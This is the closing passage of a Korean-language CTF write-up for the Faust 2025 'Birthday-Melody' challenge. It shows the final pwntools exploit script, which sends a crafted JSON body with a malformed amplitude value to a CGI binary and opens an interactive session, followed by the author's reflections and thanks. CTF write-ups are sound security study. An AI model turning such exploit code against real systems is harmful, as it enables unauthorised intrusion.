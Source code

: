 ```
            "amplitude": -0x201a1fffff,
            "offset": 0x2
        },
    ],
})

env = {
    "LD_LIBRARY_PATH": "./alpine-libs/usr/lib",
    "REQUEST_METHOD": "POST",
    "QUERY_STRING": "id=-",
    "CONTENT_TYPE": "application/json",
    "CONTENT_LENGTH": str(len(body.encode())),
}

p = process(["/lib/ld-musl-x86_64.so.1", "./genwav.cgi"], env=env)

p.send(body.encode())

p.interactive()
```

저는 성공적으로 이 문제를 풀게되어 정말 기쁘고, 분석하는 과정을 통해 새로운 배움을 얻게 되었습니다.
그리고 방향성을 못잡고 큰 벽 처럼 느껴지는 문제라도, 집요하게 잡고 시간을 들인다면, 결국 무너뜨릴 수 있다는 자신감 또한 얻었습니다.

끝으로, Faust 2025 CTF 에서 출제된 Birthday-Melody 문제의 저의 write-up 을 봐주신 여러분께 진심으로 감사드립니다.


